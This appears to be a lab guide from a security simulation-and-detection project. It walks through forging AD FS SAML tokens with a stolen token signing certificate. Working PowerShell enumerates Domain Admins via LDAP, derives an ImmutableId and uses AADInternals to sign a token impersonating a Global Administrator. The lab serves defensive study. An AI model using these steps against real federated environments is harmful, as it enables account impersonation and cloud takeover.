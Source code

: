 # Forge SAML Tokens with Active Directory Federation Service (AD FS) Token Signing Certificate

If a threat actor gets to steal the AD FS token signing certificate from an AD FS server, it is just a matter of time until it is used to sign SAML tokens and impersonate users in a federated environments. 

## Sumulate & Detect
1.	[Enumerate privileged accounts](#enumerate-privileged-accounts).
2.	[Forge SAML token](#forge-saml-token).

## Enumerate Privileged Accounts

Let's start by identifying privileged accounts that we could impersonate and that could also have privileged access to resources in the cloud. In this lab guide, the default domain admin account named `pgustavo` was also the account that was assigned the Azure AD built-in  Global Administrator   role. Therefore, we can start by enumerating the members of the `Domain Admins` group.

### Enumerate Members of the Domain Admins Group via Lightweight Directory Access Protocol (LDAP)

**Preconditions**
* Endpoint: AD FS Server (ADFS01)
    * Authorization: AD FS service account or domain user
* Endpoint: DC01
    * Service running: Active directory domain services
    * Port open: 389

1.  Connect to the AD FS server (ADFS01) via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers = $ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_01_get_domain_admins.png)

## Forge SAML Token

A threat actor would most likely do this outside of the organization. Therefore, there are no detections for this step.

**Preconditions**
* Endpoint: AD FS Server (ADFS01)
  * Even when this step would happen outside of the organization, we can use the same PowerShell session we used in the previous section.
  * Authorization: Local Administrator
  * Libraries Installed: [AADInternals](https://github.com/Gerenios/AADInternals)
  * AD FS token signing certificate:
    * In a previous simulation step, we [exported the AD FS token signing certificate as a PFX file](exportADFSCertificatesAsPfxFiles.md) to the `C:\ProgramData` directory with the name `ADFSTokenSigningCertificate.pfx` (default).

### Convert User AD Object GUID to its Azure AD Immutable ID representation

1.  Once we identify the privileged user we want to impersonate, we need to obtain the immutable ID of the account AD object GUID. The `ImmutableId` is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$ObjectGUID = "07cd318c-b6ba-432e-9936-b992d7c78388"
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_02_get_immutable_id.png)

### Install AADInternals

2.  On the same PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.8 -Force 
Import-Module –Name AADInternals
```

### Sign a New SAML Token

3. Use the `New-AADIntSAMLToken` function to sign a new SAML token. We would need:
  * The `ImmutableID` we got in the first stecion.
  * The path to the token signing certificate file.
  * The D FS token issuer url.

```PowerShell 
$ImmutableId = 'jDHNB7q2LkOZNrmS18eDiA=='
$Cert = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken = New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_04_sign_saml_token.png)

## Output

Use the variable `$SamlToken` in the next step where we [get an access token via SAML bearer Assertion Flow](../persistence/getAccessTokenSAMLBearerAssertionFlow.md) for resources such as the Microsoft Graph API.

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
